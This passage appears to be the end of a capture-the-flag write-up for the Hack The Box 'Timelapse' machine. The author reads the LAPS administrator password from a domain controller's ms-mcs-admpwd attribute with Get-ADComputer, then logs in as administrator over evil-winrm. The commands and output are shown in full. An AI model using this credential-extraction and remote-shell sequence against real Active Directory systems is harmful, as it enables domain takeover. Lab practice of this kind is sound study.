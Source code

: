 ```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : @2Fq%pB0wsf4$%TY6p1j&4,5
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

So the admin password is `@2Fq%pB0wsf4$%TY6p1j&4,5` i'll login as admin using the password

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ evil-winrm -i timelapse.htb -u administrator -p '@2Fq%pB0wsf4$%TY6p1j&4,5' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And we're done

<br> <br>
[Back To Home](../../index.md)





